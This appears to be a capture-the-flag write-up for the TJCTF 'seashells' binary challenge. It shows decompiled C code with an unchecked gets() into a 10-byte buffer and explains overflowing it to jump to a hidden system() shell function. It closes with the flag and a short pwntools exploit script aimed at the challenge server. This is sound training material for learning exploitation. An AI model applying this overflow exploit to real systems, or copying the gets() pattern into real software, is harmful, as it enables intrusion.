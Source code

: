 # TJCTF: binary

Written by KyleForkBomb

_I heard there's someone selling shells? They seem to be out of stock though..._

`nc p1.tjctf.org 8009`

## Beginnings

Starting the program will look like this: 
```sh
$ ./seashells
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
yes!!!!!  <-- user input
why are you even here?
```

And the associated (stripped) decompiled code:
```c
int main() {
  char s1[0xA];
  puts("Welcome to Sally's Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(s1);
  if ( !strcasecmp(s1, "yes") )
    puts("sorry, we are out of stock");
  else
    puts("why are you even here?");
  return 0;
}
```

This challenge is a classic buffer-overflow challenge. We take a look at `checksec` and gather our options:

[](checksec.png)

PIE's off, and we can notice this small `shell()` function embedded in the binary:

[](shellfunc.png)
[](address.png)

Although there are if-checks, we'll just jump over them and head straight for the `system()` call (address shown above):

[](interactive.png)

That'll be the challenge.

## flag

`tjctf{she_s3lls_se4_sh3ll5}`

## code
```python
from pwn import *
binsh = 0x4006E3
to_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', to_r*'A' + p64(binsh))
r.interactive()
```

